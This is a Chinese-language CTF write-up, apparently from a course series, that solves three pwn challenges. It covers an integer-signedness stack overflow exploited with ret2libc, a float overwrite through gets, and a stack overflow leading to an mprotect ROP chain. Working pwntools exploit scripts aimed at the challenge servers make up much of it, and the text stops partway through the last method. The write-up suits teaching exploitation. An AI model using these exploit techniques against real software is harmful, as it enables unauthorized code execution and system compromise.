## pwn2_sctf_2016

先进行架构分析



32位小端序，没栈保护，地址不会随机化，符号也没有去除

进入逆向分析，直接跳转vuln

```c
int vuln()
{
  char nptr[32]; // [esp+1Ch] [ebp-2Ch] BYREF
  int v2; // [esp+3Ch] [ebp-Ch]

  printf(format: "How many bytes do you want me to read? ");
  get_n(a1: nptr, a2: 4);
  v2 = atoi(nptr);
  if ( v2 > 32 )
    return printf(format: "No! That size (%d) is too large!\n", v2);
  printf(format: "Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(a1: nptr, a2: v2);
  return printf(format: "You said: %s\n", nptr);
}
```

留意到这里会读取一个长度为4字节的数字，然后这个数字会被atoi转换成int类型，同时这个转换过来的数字不能超过32

检验通过后会调用get_n函数读取长度为v2的字符串，并将它保存在nptr数组中，注意到nptr数组只有32字节，必须要考虑到可能存在的栈溢出

接下来逆向分析get_n

```c
int __cdecl get_n(int a1, unsigned int a2)
{
  unsigned int v2; // eax
  char v4; // [esp+Bh] [ebp-Dh]
  unsigned int i; // [esp+Ch] [ebp-Ch]

  for ( i = 0; ; ++i )
  {
    v4 = getchar();
    if ( v4 == 0 || v4 == 10 || i >= a2 )
      break;
    v2 = i;
    *(_BYTE *)(v2 + a1) = v4;
  }
  *(_BYTE *)(a1 + i) = 0;
  return a1 + i;
}
```

这个和我们上面分析的一致，它会读取存放内容的指针还有要存放内容的长度，然后就是用for循环一个一个字符的读取，这里还有个小限制，不让我们输入的内容里包含EOF结束符号以及换行

好啦，我们来思考下本题的解决思路，先关注我前面说的可能存在溢出的nptr数组，这里只让读32字节，然后我们再追踪下vuln的第12行代码，就是它给nptr写入内容：​`get_n(a1: nptr, a2: v2);`，那么情况很明显了，我们需要想个办法让v2超过32这个上限，至少在vuln的伪c代码中，我没有好的思路，但是来到get_n里，这里的unsigned int应该足够显眼吧，如果我给v2传递进去的是-1，这会怎么办呢？

在int里，-1应该是

```js
11111111 11111111 11111111 11111111
```

但是这里存在一个类型转换的问题，关注get_n的第三行代码​`unsigned int v2; // eax`

它会让unsigned int类型的v2读取来自vuln的参数-1，那么就爽了，在unsigned int里是不存在符号位的，因此我上面写得32个1就会被系统看成2^32 -1,这已经是一个非常非常大的数了，足够我们进行溢出操作

接下来我们需要定位利用函数或汇编

大致浏览了下，这里找不到能利用的system，这种情况应该是很熟练了吧，没错，就是打ret2libc，跳转到got表里检查下，这里的printf能用，我们就用它来泄露动态内存地址，获取libc版本并劫持system获取shell

开始手搓exp

‍

```python
from pwn import *

context.arch='i386'

printf_plt=0x8048370
printf_got=0x804a00c
vuln_addr=0x804852F
printf_s_addr=0x80486F8
system_libc_addr=0x03A940
binsh_libc_addr=0x015902B
printf_libc_addr=0x049020

#p = process('./pwn')
p=remote("17975523afe8a04aedd29751.tcp-ctf2.dasctf.com", 9999, ssl=True, sni="17975523afe8a04aedd29751.tcp-ctf2.dasctf.com")
p.sendlineafter(b"How many bytes do you want me to read? ",b"-1")

payload1=flat(
    b"a"*44,
    b"b"*4,
    printf_plt,
    vuln_addr,
    printf_s_addr,
    printf_got
)
p.sendlineafter(b"bytes of data!\n",payload1)
p.recvline()
p.recvuntil(b"You said: ")
leak=p.recv(4)
print(leak)
printf_addr=u32(leak)
print(hex(printf_addr))
p.recvline()
libc_base=printf_addr-printf_libc_addr
system_addr=libc_base+system_libc_addr
binsh_addr=libc_base+binsh_libc_addr
print(hex(system_addr))
print(hex(binsh_addr))

p.sendlineafter(b"How many bytes do you want me to read? ",b"-1")
payload2=flat(
    b"a"*44,
    b"b"*4,
    system_addr,
    vuln_addr,
    binsh_addr
)
p.sendlineafter(b"bytes of data!\n",payload2)

p.interactive()
```



## ciscn\_2019\_n\_1

这题算作今天的开胃小菜，很简单，但是估计你之前没碰过

```c
int func()
{
  _BYTE v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts(s: "Let's guess the number.");
  gets(a1: v1);
  if ( v2 == 11.28125 )
    return system(command: "cat /flag");
  else
    return puts(s: "Its value should be 11.28125");
}
```

获取flag的条件是让​`v2==11.28125`

但是程序内置v2=0,我们能控制的变量是v1，和v2完全无关，这个时候可以借助溢出覆盖v2的值，首先查看栈布局

```python
------------
|   rbp    |
------------
|   v2     |   <- rbp-4
------------
| v1[44]   |   <- rbp-48
------------
```

已经很显然了，我们借助gets把v1给padding掉，然后给v2覆盖应该有的11.28125,但是这里需要注意，二进制属于小端序，因此我们必须倒着打印，不过在python中可以很方便的使用struct封装

```python
from pwn import *
import struct

context.arch="amd64"

p=remote("5f0843c29c8d837628c352aa.tcp-ctf2.dasctf.com", 9999, ssl=True, sni="5f0843c29c8d837628c352aa.tcp-ctf2.dasctf.com")
payload=flat(
    b"a"*44,
    struct.pack('<f',11.28125)
)
p.sendlineafter(b"Let's guess the number.\n",payload)

p.interactive()
```



## get\_started\_3dsctf\_2016

### 方法1

这题有个坑，当我们处理padding的过程中，如果考虑ebp的话，那样会多考虑4字节，这会导致溢出后的返回地址不是我们想要的flag输出函数

先来解释下为啥不能考虑ebp，我从三个角度来讲解

- 静态汇编

用IDA查看汇编的过程中，会留意到本二进制的函数在运行过程中并没有push ebp，详细看下图的对比



左图是本题的get_flag函数，右图是CTFshow_pwn02

因为它两都是32位二进制，而且都涉及栈溢出考点所以我拿过来进行比较

可以观察到，左侧的汇编开始的时候，是不是直接设置了栈顶esp，而不是ebp?正常来说二进制应该像右侧框中那样，先push ebp留个锚点，然后开始其它操作，但是本题似乎在编译的时候多设置了某个参数，让二进制内部去除ebp，去除ebp后当然可以正常运行，我之前有讲过的，ebp存在的作用仅仅是参考系，方便后面的指令跳转过程中快速借助相对偏移找到返回地址，但是理论上，一个二进制也大可不用ebp或rbp，仅仅是让指令查找速度慢了一点点而已

上面是角度1，接下来我的角度2是最傻瓜的一版本

- 脚本padding测试

首先，我们写个大概正确的代码（我这里先将ebp的四字节考虑

```python
from pwn import *

context.arch="i386"
p=process('./get_started')
flag_addr=0x080489A0
payload=flat(
    b"a"*60,
    flag_addr,
    0,
    0x308CD64F,
    0x195719D1
)
p.send(payload)
p.interactive()
```



这个傻瓜方法是因为我检查完所有代码内容，感觉没有问题了，但是始终拿不到flag，没招了，就手动将padding逐渐减少或增加，发现在56字节的位置上能返回flag了，这个是为什么呢？56还特别特殊，它是数组的长度，我们padding完数组后，直接发送flag_addr后，结果真的能返回flag，一定能体会到这里似乎不需要考虑saved ebp占用的四字节了

最后来看看维度三，我在这里会用gdb动态调试，查看我们的数组起点距离返回地址到底有多远

- gdb动态调试

首先有个前置知识，还记得我在第一节课里讲解的ret的原子操作吗？它整体可以看作这两个步骤

```python
EIP <-- [ESP]
ESP = ESP + 4
```

因此我们看到main的返回地址后，可以顺手看看具体是哪个ESP值存储着返回地址，然后我们就能利用那个ESP表示出返回地址的偏移

首先，我们确定要下断的点，这个倒是随意



这几行都行的

我的示例中，我选择那个​`0x08048A3B`

然后输入的内容就是aaaa，因为它在十六进制中很好找到，就是0x61616161



注意我上图的标记，首先看到我们的RSP寄存器初始值是0xffffd390

然后停到断点后，查看下面的指令，发现和ret特别接近，看到右侧标记了RSP指向的地址，在汇编区域里很轻松看到跳转后的指令以及变化的RSP栈顶

接下来我们使用​`x/20wx $esp`查看当前指令的esp值，从esp+0一直到esp+80

关注下第一行的那个框，0x61616161就是我们写入的aaaa，正常来说，它会被存储在v4数组中，恰好，它在esp+4的位置，这个倒是和ida里的一致，我们继续往下看，首先v4一共56字节，在这个视图中，应该一共14x4，就是那个0xffffd3cc的位置，我画框的地方恰好是main返回的地址，因此啊，这里真的不存在ebp

> gdb在解决这类题的时候，真的近乎"作弊"手段了，它真的真的好用，因此后面的学习中，遇到稍微复杂无法轻易理解的堆栈题的时候，请直接观察内存的变化，说不定有惊喜



至于过程就很简单了，我不赘叙，然后这里还有个小坑需要解释

当我们用相同的payload和题目交互的时候，会发现打通了，但是不返回flag



我来解释下本地为什么能看到flag，回到这个get_flag函数

```cpp
void __cdecl get_flag(int a1, int a2)
{
  int v2; // esi
  unsigned __int8 v3; // al
  int v4; // ecx
  unsigned __int8 v5; // al

  if ( a1 == 814536271 && a2 == 425138641 )
  {
    v2 = IO_new_fopen(a1: "flag.txt", a2: "rt");
    v3 = IO_getc(a1: v2);
    if ( v3 != 255 )
    {
      v4 = (char)v3;
      do
      {
        putchar(a1: v4);
        v5 = IO_getc(a1: v2);
        v4 = (char)v5;
      }
      while ( v5 != 255 );
    }
    IO_new_fclose(a1: v2);
  }
}
```

因为putchar是逐个字符输出的，然后本地二进制连接的是终端，走的是行缓冲，这个时候，putchar每输出一个字符，遇到换行符会立刻刷出去，就算程序崩溃了，也不影响它前面已经输出到终端的字符

但是远程的话，正常来说我们走的是socket交互，这不是终端，属于全缓冲，putchar的输出全攒在内存缓冲区里，一个字节都没发出来，正常来说程序不崩溃的话，只有在刷新缓冲区的操作进行后才能将原本缓冲区的内容输出

这里就顺便解释了，为什么我们之前见到的pwn题里，出题师傅会特意将缓冲区的IO关掉

```typescript
setvbuf(stream: stdout, buf: nullptr, modes: 2, n: 0);
setvbuf(stream: stdin, buf: nullptr, modes: 2, n: 0);
```

那么常见的刷新缓冲区操作的函数有fflush和exit，只要程序内部有这个函数直接拿去用就好了



### 方法2

这个方法我看网上很多wp都有写，而且你也该到学习汇编的时候了



首先看架构分析，这个二进制有栈不可执行的特点，那么我们想写shellcode就得考虑某些后门函数，比如说mprotect函数

在linux中，mprotect函数可以用来修改一段指定内存区域的保护属性，函数签名是这样的：

```c
int mprotect(const void *start, size_t len, int prot);
```

第一个参数填的是一个地址，是指需要进行操作的地址。

第二个参数是地址往后多大的长度。

第三个参数的是要赋予的权限。

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。  
prot可以取以下几个值，并且可以用“|”将几个属性合起来使用：

- PROT_READ：表示内存段内的内容可读 === 1
- PROT_WRITE：表示内存段内的内容可写 === 2
- PROT_EXEC：表示内存段中的内容可执行 === 4
- PROT_NONE：表示内存段中的内容根本没法访问  === 0

正常来说，我们只需要记住让prot=7即可，它可以看成4+2+1=7,对应的权限是可读可写可执行

然后这个函数指定的内存区间必须包含整个内存页，区间开始的地址必须是一个内存页的起始地址，并且区间长度len必须是页大小的整数倍

> 我这里一直说的页大小你一定知道，就是0x1000,还记得为啥ret2libc找libc的时候看的是末尾三位始终一致吗？就是因为每个函数都在规范的页里进行操作，每次内存动态变换的时候，都是完整的页发生了变化

好了，我要开始解决题目了，首先我要找一个合适的段，这个段必须可写，而且地址固定，空间足够我们写入shellcode

在我见到的pwn题里，最多用的应该是.bss段，这个段相对来说很干净，专门用来放未初始化全局变量的

```bash
readelf -S ./get_started
```



看到.bss段可写不可执行，然后初始地址在​`0x080ebf80`,这个地址不太理想，因为我们的mprotect要从一个页的起点开始写（假如说就从这个地址开始，来到下一页的时候，我们更改的可执行权限就失效了，其实压根运行不了，程序会直接崩溃的

不过我们不要担心，因为.bss段真的很长，简单算算.bss段里具体哪个位置是页的开始



虽说.bss段总长度只有0x000e0c,但是我们写不了那么长的，至于你心里想如果超过.bss段怎么办，那就放心吧，不会影响程序运行的，程序页和段是两个表达方法，两个之间互不打扰

这是完整的payload链

```bash
-0x14  [mprotect_addr]   ← main ret → mprotect
-0x10  [pop3_ret]        ← mprotect 的返回地址 → pop3_ret
-0x0c  [page_addr]       ← mprotect 参数1
-0x08  [0x1000]          ← mprotect 参数2
-0x04  [0x7]             ← mprotect 参数3
+0x00  [read]            ← read 的地址
+0x04  [bss_raw]         ← read 的返回地址 → bss
+0x08  [0]               ← read 参数1
+0x0c  [bss_raw]         ← read 参数2
+0x10  [0x100]           ← read 参数3
```

首先解释下为啥我们要给mprotect的返回地址设置pop3_ret而不是read的地址

我这里的pop3_ret实质上是汇编代码：​`pop ebp ; pop esi ; pop edi ; ret`(寄存器随意，核心就是三次pop操作以及最后的ret，使用的命令如下：

```bash
ROPgadget --binary ./get_started | grep "pop.*pop.*pop.*ret"
```



这个0x0809e4c5的最干净，我后面会用它

我来讲解下为啥要三次pop

之前讲解32位二进制传递参数的时候讲过，参数都走的是栈，调用约定应该是：函数 -> 返回地址 -> 参数

假如说我们不用pop3_ret，那么payload是这样的结构

```bash
偏移    内容            谁用
─────────────────────────────────────
+0x00   mprotect_addr   main ret → mprotect
+0x04   read_addr       mprotect 的返回地址
+0x08   page_addr       mprotect 参数1
+0x0C   0x1000          mprotect 参数2
+0x10   0x7             mprotect 参数3
+0x14   read_addr       read 函数
+0x18   bss_raw         read 的返回地址
+0x1c   0               read 参数1
+0x20   bss_raw         read 参数2
+0x24   0x100           read 参数3  
```

main执行ret后进入mprotect_addr，我这里将它看作栈顶，esp指向0x00 ，方便你后面理解

然后向下走4字节过掉返回地址（esp还没变呢，依然指向那个mprotect_addr栈顶

接下来是给mprotect取参数，参数都在栈上，函数会从​`esp+8,esp+12,esp+16`取三个参数，取完参数后就应该ret了，返回地址就是保存的那个read函数地址

注意了，这里执行了一次ret，我们的esp是不是应该+4呢？（我的意思是整体向下走四个字节，效果就是现在的read_addr变成了栈顶）那么我们当前的栈结构如下：

```bash
偏移    内容            谁用
─────────────────────────────────────
-0x04   mprotect_addr   main ret → mprotect
+0x00   read_addr       mprotect 的返回地址
+0x04   page_addr       mprotect 参数1
+0x08   0x1000          mprotect 参数2
+0x0c   0x7             mprotect 参数3
+0x10   read_addr       read 函数
+0x14   bss_raw         read 的返回地址
+0x18   0               read 参数1
+0x1c   bss_raw         read 参数2
+0x20   0x100           read 参数3  
```

> **一些补充**
>
> read函数签名
>
> `ssize_t read(int fd, void *buf, size_t count);`
>
> 这三个参数的相关说明如下：
>
> |参数|类型|说明|
> | ------| ------| ------------------------------------------------------------------------------------------|
> |`fd`|`int`|文件描述符（file descriptor），表示要读取的目标。如​`0`​是标准输入，也可以是​`open()`返回的 fd|
> |`buf`|`void *`|指向缓冲区的指针，读取到的数据会存放到这里|
> |`count`|`size_t`|请求读取的字节数（缓冲区大小）|

